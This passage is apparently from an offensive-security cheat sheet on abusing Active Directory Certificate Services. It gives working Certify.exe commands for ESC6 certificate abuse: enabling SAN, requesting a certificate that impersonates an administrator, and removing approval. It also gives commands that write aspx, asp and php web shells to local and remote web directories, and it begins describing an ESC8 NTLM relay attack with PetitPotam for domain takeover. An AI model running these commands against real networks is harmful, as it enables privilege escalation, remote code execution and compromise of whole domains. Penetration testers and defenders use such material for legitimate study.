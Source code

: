 - Change the CA settings to enable the SAN extension for all the templates under the vulnerable CA (ESC6)
    
    ```ps1
    Certify.exe setconfig /enablesan /restart
    ```
    
- Request the certificate with the desired SAN.
    
    ```ps1
    Certify.exe request /template:User /altname:super.adm
    ```
    
- Grant approval if required or disable the approval requirement
    
    ```ps1
    # Grant
    Certify.exe issue /id:[REQUEST ID]
    # Disable
    Certify.exe setconfig /removeapproval /restart
    ```
    

Alternative exploitation from **ManageCA** to **RCE** on ADCS server:

```ps1
# Get the current CDP list. Useful to find remote writable shares:
Certify.exe writefile /ca:SERVER\ca-name /readonly

# Write an aspx shell to a local web directory:
Certify.exe writefile /ca:SERVER\ca-name /path:C:\Windows\SystemData\CES\CA-Name\shell.aspx /input:C:\Local\Path\shell.aspx

# Write the default asp shell to a local web directory:
Certify.exe writefile /ca:SERVER\ca-name /path:c:\inetpub\wwwroot\shell.asp

# Write a php shell to a remote web directory:
Certify.exe writefile /ca:SERVER\ca-name /path:\\remote.server\share\shell.php /input:C:\Local\path\shell.php
```

### ESC8 - AD CS Relay Attack

> An attacker can trigger a Domain Controller using PetitPotam to NTLM relay credentials to a host of choice. The Domain Controller’s NTLM Credentials can then be relayed to the Active Directory Certificate Services (AD CS) Web Enrollment pages, and a DC certificate can be enrolled. This certificate can then be used to request a TGT (Ticket Granting Ticket) and compromise the entire domain through Pass-The-Ticket.

Require [Impacket PR #1101](https://github.com/SecureAuthCorp/impacket/pull/1101)

- **Version 1**: NTLM Relay + Rubeus + PetitPotam
    